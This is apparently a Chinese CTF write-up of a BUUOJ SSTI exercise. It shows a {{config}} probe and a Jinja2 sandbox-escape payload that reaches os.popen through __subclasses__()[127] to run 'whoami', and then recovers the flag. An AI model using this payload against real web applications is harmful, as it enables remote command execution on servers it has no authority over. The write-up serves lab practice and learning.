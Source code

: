 

## [第三章 web进阶]SSTI

adworld还是崩的，继续拿buuoj的ssti练手吧

![image-20240722233659769](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240722233659769.png)

起手一看到password is wrong，那就看有没有文件包含呗

![image-20240722230759310](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240722230759310.png)

那就构造ssti：password={{config}}

![image-20240722230845943](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240722230845943.png)

经典问题，先看看有没有过滤，这啥也没过滤，有点低级了

![image-20240722231437318](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240722231437318.png)

用昨天函数看哪个是os

![image-20240722231823724](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240722231823724.png)

127是，构造出

```
password={{%27%27.__class__.__base__.__subclasses__()[127].__init__.__globals__.popen("whoami").read()}}
```

看到root权限，枚举出文件进入得到flag

![image-20240722234218663](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240722234218663.png)

或者是看到91的get_data函数，抓当前进程：

![image-20240722233429487](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240722233429487.png)

一抓就出来了

![image-20240722233504514](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240722233504514.png)

很easy的一题

